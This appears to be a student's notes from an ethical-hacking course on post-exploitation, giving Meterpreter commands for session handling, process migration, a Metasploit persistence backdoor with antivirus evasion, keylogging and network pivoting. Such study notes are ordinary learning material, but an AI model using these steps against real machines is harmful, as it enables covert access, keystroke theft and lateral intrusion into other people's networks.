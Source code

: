 ## Gaining access outside the local network

* Need to configure router to allow incoming connection and redirect them to the Kali machine
=> see Udemy lectures fo details

# Post-Exploitation

## Meterpreter

                background => "minimize" the session while maintening connection
                sessions -l => list all sessions
                sessions -i <id> => connect to the session
                sysinfo => get info on system
                ipconfig => list internet interfaces
                ps => list all processes
                migrate <id of process> => move our current session to another program (that is less likely to be terminated, be careful of the port used 8080 that will show in the Resource Manager)

* File System Commands are linux commands (pwd, ls, cat, ...) + download / upload / execute

## Maintaining Access

* in case the target person uninstal the vulnerable program or if they restart their computer
1 Migrate the backdoor to a more "stable" process (explorer, browser)
2 Using a veil-evasion (use it instead of a normal backdoor or uplad and execute from meterpreter) -> does not always work
3 Using persistence module -> detectable by antivirus program
4 Using metasploit + veil-evasion -> more robust + undetectable by antivirus / use normal backdoor and run as a service

                use exploit/windows/local/persistence
                set session <session id>
                set exe::custom <backdoor location>
                exploit

## Spying (keylogger)

* in meterpreter => keyscan_start / keyscan_dump (show data) / keyscan_stop

## Pivoting

* Use the hacked device as a pivot to gain access to other devices in the network, that are not readily visible to the hacker
* Use Autoroute
        * Setup a route between hacker and hacked device
        * Gives hacker access to devices on the network
        * Use metasploit

                        use post/windows/manage/autoroute
                        set SUBNET <subnet> => the other subnet used by the pivot
                        set SESSION <id> => link with the session used to connect to the pivot
                        exploit
